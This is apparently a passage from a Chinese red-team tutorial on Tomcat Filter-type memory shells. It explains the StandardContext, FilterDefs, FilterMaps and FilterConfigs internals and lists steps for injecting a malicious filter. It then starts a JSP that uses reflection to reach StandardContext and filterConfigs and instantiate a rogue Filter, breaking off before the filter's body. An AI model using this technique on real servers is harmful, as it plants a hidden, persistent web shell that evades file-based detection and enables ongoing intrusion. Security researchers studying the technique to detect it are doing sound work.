 那么我们接下来再看filterDefs，StandardContext直接提供了对应的添加方法:
![img](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/20220217112602.png)

最后我们再来看filterConfigs，根据命名规则搜索`addFilterConfig`，发现并没有这个方法，所以我们考虑要通过反射的方法手动获取属性并添加:
![img](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217112715.png)
![img](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/20220217112750.png)

```markdown
我们先来了解一下在Tomcat中与Filter密切相关的几个类:
`1.FilterDefs：存放FilterDef的数组 ，FilterDef 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息
`2.FilterConfigs：存放filterConfig的数组，在 FilterConfig 中主要存放 FilterDef 和 Filter对象等信息
`3.FilterMaps：存放FilterMap的数组，在 FilterMap 中主要存放了 FilterName 和 对应的URLPattern
`4.FilterChain：过滤器链，该对象上的 doFilter 方法能依次调用链上的 Filter
5.WebXml：存放 web.xml 中内容的类
6.ContextConfig：Web应用的上下文配置类
★7.StandardContext：Context接口的标准实现类，一个 Context 代表一个 Web 应用，其下可以包含多个 Wrapper
★8.StandardWrapperValve：一个 Wrapper 的标准实现类，一个 Wrapper 代表一个Servlet

最后总结下Filter型内存马(即动态创建filter)的步骤:
1. 获取StandardContext
2. 继承并编写一个恶意filter
3. 实例化一个FilterDef类，包装filter并存放到StandardContext.filterDefs中
4. 实例化一个FilterMap类，将我们的 Filter 和 urlpattern 相对应，存放到StandardContext.filterMaps中(一般会放在首位)
5. 通过反射获取filterConfigs，实例化一个FilterConfig(ApplicationFilterConfig)类，传入StandardContext与filterDefs，存放到filterConfig中
```

以下是代码的具体实现:

```
<!-- tomcat 8 -->
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    String name = "Longlone";
    // 获取StandardContext
    ServletContext servletContext = request.getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    // 获取filterConfigs
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null) {
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

```